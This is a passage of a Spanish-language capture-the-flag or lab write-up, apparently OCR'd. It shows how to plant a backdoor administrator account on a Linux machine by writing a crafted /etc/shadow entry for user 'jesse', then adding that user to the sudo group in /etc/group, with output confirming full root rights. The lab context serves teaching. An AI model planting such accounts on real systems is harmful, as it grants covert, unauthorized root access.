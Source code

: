 ```defaul
jesse:$6$6qhs4kvUJ6r3F0.k$FQTiyFU9xQjjd2FHS.UXzrxHVO6rdAf03S46ekW4DhdI8bVaN90EuyR5nAXrvFmf1dGz8zaQxfaeAYqRoCU7X1:18843:0:99999:7:::
```

Para comprobar que hemos añadido correctamente el usuario volvemos a nuestra sesión con katy e intentamos acceder a la cuenta de jesse con 'su' y las credenciales construidas anteriormente:

```bash
katy@linux05:~$ su jesse
Password: 
jesse@linux05:/home/katy$ id
uid=1002(jesse) gid=1001(katy) groups=1001(katy)
```

Observamos que ha funcionado, ahora lo que queda es incluir al nuevo usuario en el grupo '27 (sudo)'. Para ello bastará con modificar como root el fichero /etc/group y añadimos a jesse junton con katy separado por comas tal y como se puede ver a continuación:

```defaul
root@linux05:~# vi /etc/group
...
floppy:x:25:
tape:x:26:
sudo:x:27:katy,jesse
audio:x:29:
dip:x:30:
...
```

Para realizar la última comprobación nos logeamos como Jesse y:

```bash
katy@linux05:~$ su jesse
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jesse@linux05:/home/katy$ id
uid=1002(jesse) gid=1001(katy) groups=1001(katy),27(sudo)
jesse@linux05:/home/katy$ sudo -l
[sudo] password for jesse: 
Matching Defaults entries for jesse on linux05:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jesse may run the following commands on linux05:
   (ALL : ALL) ALL
jesse@linux05:/home/katy$ exit
```

Observamos que estamos en el grupo 'sudo' y que al ejecutar 'sudo -l' no hay límites en los comandos que podemos ejecutar como root.

<br />

**4. Hay una unidad USB conectada a esta máquina que no se ha montado. Monte la unidad y busque su contenido para encontrar la siguiente bandera.**
